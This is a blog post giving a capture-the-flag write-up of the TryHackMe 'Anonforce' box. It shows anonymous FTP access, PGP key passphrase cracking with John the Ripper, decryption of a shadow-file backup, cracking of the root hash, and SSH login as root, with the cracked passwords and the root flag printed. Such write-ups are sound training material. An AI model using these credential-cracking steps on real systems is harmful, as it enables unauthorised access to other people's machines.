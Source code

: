 ```yaml
---
layout: post
title:  "THM: Anonforce"
date:   2021-01-03 19:45:00 +1100
category: hacking
---
```


## Introduction
*boot2root machine for FIT and bsides guatemala CTF*

This is [Anonforce](https://tryhackme.com/room/bsidesgtanonforce) from THM. Like Dav and Library, it's ranked easy. This box took me about 12 minutes.

## Ports
FTP and SSH only, on the standard ports.

## FTP
We've got anonymous login so let's use it; we get the root of the server! We've got one user (melodias), and we can get *user.txt*.

One unusual directory stands out: */notread*. What's inside?

{% highlight shell %}
ftp> ls -lash
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 .
drwxr-xr-x   23 0        0            4096 Aug 11  2019 ..
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
ftp> mget *
mget backup.pgp? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for backup.pgp (524 bytes).
226 Transfer complete.
524 bytes received in 0.00 secs (1.0587 MB/s)
mget private.asc? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for private.asc (3762 bytes).
226 Transfer complete.
3762 bytes received in 0.00 secs (2.4473 MB/s)
{% endhighlight %}

## PGP
These are PGP files. We need to crack the password for the *asc* file:

{% highlight shell %}
root@kali:/opt/tryhackme/bsidesanon# gpg2john private.asc > private.john

File private.asc
root@kali:/opt/tryhackme/bsidesanon# ls
backup.pgp  nmap  passwd  private.asc  private.john  user.txt
root@kali:/opt/tryhackme/bsidesanon# john private.john -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xbox360          (anonforce)
1g 0:00:00:00 DONE (2021-01-03 03:38) 8.333g/s 7766p/s 7766c/s 7766C/s xbox360..madalina
Use the "--show" option to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

Once we've done that, we can decrypt the file with *import* and *decrypt*:

{% highlight shell %}
root@kali:/opt/tryhackme/bsidesanon# gpg --import private.asc 
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: key B92CD1F280AD82C2: secret key imported
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
root@kali:/opt/tryhackme/bsidesanon# gpg --decrypt 
backup.pgp    nmap/         passwd        private.asc   private.john  user.txt      
root@kali:/opt/tryhackme/bsidesanon# gpg --decrypt backup.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 512-bit ELG key, ID AA6268D1E6612967, created 2019-08-12
      "anonforce <melodias@anonforce.nsa>"
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
SNIP
{% endhighlight %}

So the *backup* file was a backup of the shadow file. We have two hashes; one for melodias, and one for root.

The root password is weak, and we can crack the hash and SSH in as root:

{% highlight shell %}
root@kali:/opt/tryhackme/bsidesanon# john hash -w=/usr/share/wordlists/rockyou.txt --format=sha512crypt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads

Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:01 0.01% (ETA: 06:07:35) 0g/s 1600p/s 1600c/s 1600C/s clifford..lovers1
hikari           (?)
1g 0:00:00:04 DONE (2021-01-03 03:42) 0.2336g/s 1614p/s 1614c/s 1614C/s 98765432..better
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@kali:/opt/tryhackme/bsidesanon# ssh root@10.10.86.220
The authenticity of host '10.10.86.220 (10.10.86.220)' can't be established.
ECDSA key fingerprint is SHA256:5evbK4JjQatGFwpn/RYHt5C3A6banBkqnngz4IVXyz0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.86.220' (ECDSA) to the list of known hosts.
root@10.10.86.220's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-157-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

root@ubuntu:~# pwd
/root
root@ubuntu:~# ls -lash
total 28K
4.0K drwx------  4 root root 4.0K Jan  3 00:42 .
4.0K drwxr-xr-x 23 root root 4.0K Aug 11  2019 ..
4.0K -rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
4.0K drwx------  2 root root 4.0K Jan  3 00:42 .cache
4.0K drwxr-xr-x  2 root root 4.0K Aug 11  2019 .nano
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-r--r--  1 root root   33 Aug 11  2019 root.txt
root@ubuntu:~# cat root.txt
f706456440c7af4187810c31c6cebdce
{% endhighlight %}


